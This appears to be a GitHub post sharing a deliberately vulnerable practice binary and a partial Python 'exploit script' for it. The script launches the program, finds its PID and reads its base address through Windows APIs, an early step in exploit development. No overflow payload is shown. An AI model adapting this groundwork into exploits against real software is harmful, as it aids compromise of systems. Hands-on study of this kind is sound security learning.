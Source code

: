 > **The vulnerable binary**

[overflow4.zip](https://github.com/user-attachments/files/21561837/overflow4.zip)

> **The exploit script**

```python
import struct
import subprocess
import ctypes
import psutil

def get_pid_by_name(process_name):
    """Find the PID of a process by name."""
    for proc in psutil.process_iter(attrs=['pid', 'name']):
        print (proc)
        if proc.info['name'].lower() == process_name.lower():
            return proc.info['pid']
    return None

def get_base_address(pid):
    """Retrieve the base address of a process given its PID."""
    PROCESS_QUERY_INFORMATION = 0x0400
    PROCESS_VM_READ = 0x0010

    # Open the process
    h_process = ctypes.windll.kernel32.OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, False, pid)
    if not h_process:
        print(f"[-] Failed to open process {pid}. Check permissions.")
        return None

    # Enumerate process modules
    h_modules = (ctypes.c_void_p * 1024)()
    needed = ctypes.c_ulong()

    if ctypes.windll.psapi.EnumProcessModulesEx(h_process, ctypes.byref(h_modules), ctypes.sizeof(h_modules), ctypes.byref(needed), 0x03):
        base_address = h_modules[0]  # First module is the main executable
        ctypes.windll.kernel32.CloseHandle(h_process)
        return base_address
    else:
        print(f"[-] Failed to enumerate modules for PID {pid}.")
        ctypes.windll.kernel32.CloseHandle(h_process)
        return None


# Run the program to get the base address
process = subprocess.Popen(
    ["C:/Users/robbi/Documents/GitHub/elevationstation_local/bufferfiles/overflow4.exe"],  # Replace with the path to your compiled binary
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE
)

# Locate the process and retrieve its base address
process_name = "overflow4.exe"
pid = get_pid_by_name(process_name)

if pid:
    print(f"[+] Found {process_name} with PID: {pid}")
    base_addr = get_base_address(pid)
    if base_addr:
        print(f"[+] Base address of {process_name}: {hex(base_addr)}")
```